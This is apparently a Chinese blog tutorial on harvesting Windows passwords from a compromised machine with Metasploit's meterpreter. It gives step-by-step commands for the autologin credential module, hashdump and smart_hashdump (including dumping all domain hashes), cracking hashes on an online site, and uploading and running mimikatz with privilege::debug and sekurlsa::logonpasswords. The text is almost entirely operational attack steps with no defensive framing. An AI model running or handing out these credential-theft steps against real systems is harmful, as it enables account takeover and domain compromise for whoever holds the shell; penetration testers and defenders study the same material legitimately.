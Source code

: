 ```yaml
---
title: 使用MSF抓取用户密码
abbrlink: b034a3f3
date: 2024-10-23 21:00:00
tags:
---
```


## 抓取自动登录的密码
很多用户习惯将计算机设置自动登录
可以使用
~~~bash
run windows/gather/credentials/windows_autologin
~~~
抓取自动登录的用户名和密码

## 导出密码哈希
### run hashdump 命令
> `hashdump` 模块可以从 `SAM数据库` 中导出本地用户账号，该命令的使用需要系统权限

- 在 `meterpreter_shell` 中执行 `run hashdump` 命令
~~~bash
run hashdump
~~~

- 用户哈希数据的输出格式为
~~~bash
用户名:SID:LM哈希:NTLM哈希:::
~~~

- 使用在线网站解密hash密码
[CMD5](https://www.cmd5.com/default.aspx)

- `run windows/gather/smart_hashdump` 命令
> 使用需要系统权限。该功能更强大
> 如果当前用户是域管理员用户
> 则可以导出域内所有用户的 hash

## 使用 mimikatx 抓取密码
### 上传 mimikatz 程序
我们可以通过上传 `mimikatz` 程序
然后执行 `mimikatz` 程序来`获取明文密码`

- 前提
执行 `mimikatz` 必须 `System` 权限
并且在执行时，要根据当前的系统位数进行选择

- 使用方法
1. 在 `meterpreter_shell` 的命令行里面查看当前会话的权限
~~~bash
getuid
~~~

2. 查看系统位数
~~~bash
sysinfo
~~~

3. 选择相应位数的 `mimikatz` 上传至目标服务器
~~~bash
upload file  #upload命令后面需要跟上要上传文件的路径；这个命令是从当前机器上传到目标机器；
~~~

4. 进入 `mimikatz` 的交互界面
~~~bash
execute -i -f mimikatz.exe
~~~

5. 在 `mimikatz` 交互界面，使用以下两条命令抓取密码
~~~bash
privilege::debug
sekurlsa::logonpasswords
~~~
